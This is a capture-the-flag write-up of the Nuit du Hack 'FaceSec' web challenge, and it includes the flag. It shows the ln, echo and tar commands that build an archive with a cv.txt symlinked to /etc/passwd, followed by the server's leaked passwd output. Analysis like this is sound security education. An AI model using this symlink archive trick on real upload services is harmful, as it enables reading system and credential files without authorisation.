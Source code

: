 **Flag: M4x_M4i5_DR**

# FaceSec

Web   | 100 points  | quals.nuitduhack.com/challenges/view/11

facesec.challs.nuitduhack.com/

## Statement
*"Hello there,

We are looking for a developer or security consultant to secure our filebox
system. We stumbled upon your LinkedIn profile and it seems like you would be a
perfect candidate for this job. Could you please send us your CV and Motivation
letter?

Thanks,

faceSec HR Director."*

## Challenge

This challenge allow us to register an account and then upload text file as
resume and motivation letter in order to apply for a job.
We can also upload a compressed file (tar) with a cv.txt and a motiv.txt in
order to upload both files at the same time.

### Facebook

This challenge looks like the Facebook vulnerability discover last December:
http://josipfranjkovic.blogspot.fr/2014/12/reading-local-files-from-facebooks.html
nevertheless we must upload a .tar file instead of a .zip file.

### A bit of symbolic link

We create a `cv.txt` file with a symbolic link to `/etc/passwd` and a
`motiv.txt` file with random content and then tar the two files:

    ln -s /etc/passwd cv.txt
    echo plop > motiv.txt
    tar cvf tar.tar *.txt
        cv.txt
        motiv.txt

We upload the file `tar.tar` and we get as excepted the `/etc/passwd` file from
the server:

    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/bin/sh bin:x:2:2:bin:/bin:/bin/sh
    sys:x:3:3:sys:/dev:/bin/sh sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/bin/sh
    man:x:6:12:man:/var/cache/man:/bin/sh
    lp:x:7:7:lp:/var/spool/lpd:/bin/sh
    mail:x:8:8:mail:/var/mail:/bin/sh
    news:x:9:9:news:/var/spool/news:/bin/sh
    uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
    proxy:x:13:13:proxy:/bin:/bin/sh
    www-data:x:33:33:www-data:/var/www:/bin/sh
    backup:x:34:34:backup:/var/backups:/bin/sh
    list:x:38:38:Mailing List
    Manager:/var/list:/bin/sh
    irc:x:39:39:ircd:/var/run/ircd:/bin/sh
    gnats:x:41:41:Gnats
    Bug-Reporting System (admin):/var/lib/gnats:/bin/s)
    nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
    libuuid:x:100:101::/var/lib/libuuid:/bin/sh